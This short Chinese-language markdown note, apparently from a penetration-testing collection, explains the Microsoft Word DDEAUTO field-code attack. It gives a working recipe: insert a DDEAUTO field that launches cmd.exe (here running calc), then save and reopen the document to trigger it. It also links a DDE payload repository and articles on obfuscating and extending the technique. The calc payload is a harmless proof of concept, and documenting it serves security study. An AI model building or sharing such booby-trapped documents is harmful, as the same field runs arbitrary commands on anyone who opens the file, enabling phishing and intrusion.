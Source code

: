# DDEAUTO

## 利用方法

新建Word文档，按下 `CTRL + F9`，输入 

```
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc"
```

保存再次打开即可触发

## 其他工具

* [Office-DDE-Payloads](https://github.com/0xdeadbeefJERKY/Office-DDE-Payloads)

## 其他文章

* [DDEAUTO 混淆技巧](http://staaldraad.github.io/2017/10/23/msword-field-codes/)
* [更多 DDEAUTO 攻击方法，INCLUDE 语法、Outlook Calendar](https://pentestlab.blog/2018/01/16/microsoft-office-dde-attacks/)
